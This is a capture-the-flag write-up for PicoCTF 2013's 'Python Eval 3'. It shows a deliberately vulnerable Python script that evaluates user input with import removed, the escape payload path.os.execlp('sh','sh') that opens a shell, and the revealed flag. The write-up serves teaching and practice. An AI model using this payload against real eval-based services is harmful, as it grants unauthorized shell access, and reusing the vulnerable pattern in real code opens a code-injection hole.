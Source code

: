 # PicoCTF 2013: Python Eval 3

**Category:** Script Exploitation
**Points:** 110
**Description:**

> Give Python Eval 1 and 2 a shot before moving on to [Python Eval 3](https://2013.picoctf.com/problems/pyeval/stage3.html).

## Write-up
>This challenge involves exploiting a Python script's input 'eval' function using the script's imports.

> We're given the follwing script and the task of getting a shell to read the flag.

```
# task3.py
# Remember kids: this is bad code. Try not code like this :P
from os import path
del __builtins__.__dict__['__import__']
del __builtins__.__dict__['reload']

print "Welcome to the food menu!"
choices = (
  ("Chicken Asada Burrito", 7.69, "caburrito.txt"),
  ("Beef Chow Mein", 6.69, "beefchow.txt"),
  ("MeatBurger Deluxe", 10.49, "no description"),
  # ...
)

def print_description(n):
  print ""
  if n >= len(choices):
    print "No such item!"
  elif not path.exists(choices[n][2]):
    print "No description yet, but we promise it's tasty!"
  else:
    print open(choices[n][2]).read()

def show_menu():
  for i in xrange(len(choices)):
    print "[% 2d] $% 3.2f %s" % (i, choices[i][1], choices[i][0])

while True:
  print "Which description do you want to read?"
  show_menu()
  print_description(input('> '))
```

> We can see that the ability to import and call a shell has been blocked so we need to look for another way. Opening up a Python interperter from our 
> local machine and checking what the import path gives us reveals an answer.

```
>>> from os import path
>>> dir(path)
['__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_joinrealpath', '_unicode', '_uvarprog', '_varprog', 'abspath', 'altsep', 'basename', 'commonprefix', 'curdir', 'defpath', 'devnull', 'dirname', 'exists', 'expanduser', 'expandvars', 'extsep', 'genericpath', 'getatime', 'getctime', 'getmtime', 'getsize', 'isabs', 'isdir', 'isfile', 'islink', 'ismount', 'join', 'lexists', 'normcase', 'normpath', 'os', 'pardir', 'pathsep', 'realpath', 'relpath', 'samefile', 'sameopenfile', 'samestat', 'sep', 'split', 'splitdrive', 'splitext', 'stat', 'supports_unicode_filenames', 'sys', 'walk', 'warnings']
```

> The import path contains a reference to the module os so we can simply call a shell using path. Inputting the following commands gives us our answer
```
> path.os.execlp('sh','sh')
> ls
run.sh
task3.py
your_flag_here
> cat your_flag_here
eval_is_super_OSsome
```




**Answer: eval_is_super_OSsome** 

## Other write-ups and resources
* [https://www.uns.vn/picoctf-2013-write-up-python-eval-3/](https://www.uns.vn/picoctf-2013-write-up-python-eval-3/)
* [http://hacktracking.blogspot.com/2014/01/picoctf-2k13-python-eval-3.html](http://hacktracking.blogspot.com/2014/01/picoctf-2k13-python-eval-3.html)
* [https://github.com/james9909/PracticeCTF/tree/master/picoCTF-2013/Python%20Eval%203](https://github.com/james9909/PracticeCTF/tree/master/picoCTF-2013/Python%20Eval%203)
